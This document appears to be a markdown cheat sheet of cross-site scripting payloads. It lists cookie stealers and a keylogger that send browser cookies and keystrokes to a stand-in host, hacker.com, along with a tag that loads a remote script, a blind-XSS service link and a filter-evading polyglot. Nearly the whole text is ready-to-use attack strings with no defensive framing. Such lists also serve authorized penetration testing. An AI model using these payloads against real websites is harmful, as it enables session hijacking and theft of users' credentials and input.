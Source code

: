 # Cross Site Scripting
 
#### Generic proof of concept payload  
`<script>alert(document.domain);</script>`

#### Cookie stealer  
`<script>fetch('https://hacker.com/steal?cookie=' + btoa(document.cookie));</script>`  
`<script>var i=new Image;i.src="http://hacker.com/?"+document.cookie;</script>`  
`<img src=x onerror="this.src='http://hacker.com/?'+document.cookie; this.removeAttribute('onerror');">`

#### Key logger  
`<script>document.onkeypress = function(e) { fetch('https://hacker.com/log?key=' + btoa(e.key) );}</script>`

#### External hacker-controlled script execution  
`<script src='http://hacker.com/evil.js'></script>`  

### Blind XSS
`https://xsshunter.com/`  

### Polyglots
``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e``

